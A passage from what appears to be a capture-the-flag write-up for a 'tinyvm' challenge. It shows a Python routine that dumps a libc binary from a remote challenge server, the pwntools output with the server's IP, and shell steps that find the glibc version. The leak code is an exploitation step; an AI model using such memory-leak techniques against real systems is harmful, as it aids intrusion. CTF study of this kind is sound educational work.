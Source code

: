 
```python
def tohex(val, nbits=32):
  return hex((val + (1 << nbits)) % (1 << nbits))[2:].rjust(8, '0')

def leak_libc_binary():
	ints = io.recvall(timeout=60).decode().splitlines()
	ints = list(map(int, ints))
	ints = list(map(tohex, ints))
	ints = list(map(unhex, ints))
	raw_bytes = list(map(lambda h: h[::-1], ints))
	raw_bytes = b''.join(raw_bytes)

	with open("./libc.so", "wb") as f:
		f.write(raw_bytes)

leak_libc_binary()
```

Running code on a remote target produces the following output:

```shell
[*] '/media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 198.11.180.84 on port 6666: Done
[+] Receiving all data: Done (4.84MB)
[*] Closed connection to 198.11.180.84 port 6666
Traceback (most recent call last):
  File "/media/sf_D_DRIVE/rwctf/tinyvm/./solve.py", line 65, in <module>
    leak_libc_binary()
  File "/media/sf_D_DRIVE/rwctf/tinyvm/./solve.py", line 56, in leak_libc_binary
    ints = list(map(int, ints))
ValueError: invalid literal for int() with base 10: '0Segmentation fault'
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ file libc.so
libc.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, stripped
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ xxd libc.so | head -1
00000000: 7f45 4c46 0201 0103 0000 0000 0000 0000  .ELF............
```

Now we can grep for the libc version string:

```shell
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ strings libc.so | grep version
versionsort64
gnu_get_libc_version
argp_program_version
versionsort
__nptl_version
argp_program_version_hook
RPC: Incompatible versions of RPC
RPC: Program/version mismatch
<malloc version="1">
Print program version
GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.1) stable release version 2.35.
Compiled by GNU CC version 11.2.0.
(PROGRAM ERROR) No version known!?
%s: %s; low version = %lu, high version = %lu
```
